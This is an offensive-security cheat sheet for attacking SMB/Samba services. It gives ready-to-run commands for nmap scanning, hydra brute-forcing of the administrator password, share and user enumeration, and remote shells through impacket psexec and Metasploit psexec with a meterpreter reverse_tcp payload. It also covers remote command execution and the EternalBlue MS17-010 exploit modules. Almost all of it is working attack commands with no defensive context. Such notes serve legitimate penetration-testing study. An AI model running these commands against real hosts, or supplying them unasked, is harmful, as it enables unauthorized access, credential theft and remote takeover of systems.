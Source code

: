 # SMB/Samba
- Basic nmap scan.
```
nmap -Pn -sV -sC -p445 <ip>
```

- Brute-force SMB login.
```
hydra -l administrator -P /usr/share/wordlists/metasploit/unix_passwords.txt <ip> smb
```

- List shares.
```
smbclient -L <ip> -U administrator

smbmap -u administrator -p <password> -H <ip>

use auxiliary/scanner/smb/smb_enumshares
set SMBUser administrator
set SMBPass <password>
```

- List users.
```
enum4linux -u administrator -p <password> -U <ip>

use auxiliary/scanner/smb/smb_enumusers
set SMBUser administrator
set SMBPass <password>
```

- Get a shell.
```
locate psexec.py

cp /usr/share/doc/python3-impacket/examples/psexec.py ./
chmod +x psexec.py
python3 psexec.py administrator@<ip> cmd.exe

use exploit/windows/smb/psexec
set payload windows/x64/meterpreter/reverse_tcp
set SMBUser administrator
set SMBPass <password>
```

- Execute command.
```
smbmap -u administrator -p <password> -H <ip> -x ipconfig

python3 psexec.py administrator@<ip> ipconfig
```

- EternalBlue
```
use auxiliary/scanner/smb/smb_ms17_010

use exploit/windows/smb/ms17_010_eternalblue
```
